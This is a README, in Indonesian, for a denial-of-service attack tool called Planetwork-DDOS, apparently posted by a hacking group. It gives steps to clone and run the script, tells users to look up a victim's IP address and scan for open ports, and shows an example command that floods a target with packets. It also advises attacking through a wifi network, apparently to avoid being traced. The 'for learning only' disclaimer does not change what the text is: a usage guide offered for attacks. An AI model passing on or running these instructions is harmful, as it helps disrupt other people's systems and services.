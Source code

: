 ##############################################
#	              PLANETWORK-DDOS	             #
#	            Created by : Hydra7		         #
#		              ----------		             #
#        	 Dark-IT & PLANETWORK TeaM	       #
##############################################

#install
git clone https://github.com/Hydra7/Planetwork-DDOS
cd Planetwork-DDOS
python2 ./pntddos.py

#Usage
Sebelum menggunakan Tool ini sebaiknya cari dulu alamat IP dari Korban dan scan dimana port yang terbuka

lalu ketikkan:
python2 ./pntddos.py ip port packet

contoh:
python2 ./pntddos.py 192.168.xx.xx 80 3000

#Note
Tools ini hanya sebagai pembelajaran untuk serangan DOS & DDOS
ingat ya, ddos hanyalah sebagian kecil dan sangat kecil dari dunia hacking
jadi jangan bangga kalo cuma bisa ddos doang

INGAT!! JANGAN MELAKUKAN SERANGAN DOS/DDOS TANPA MENGGUNAKAN JARINGAN WIFI!!!!


#Kunjungi
Forum : https://forum.gorontalodarkit.com
IRC   : irc.planetwork.id

#Greetz
Dark-IT & plaNETWORK TeaM

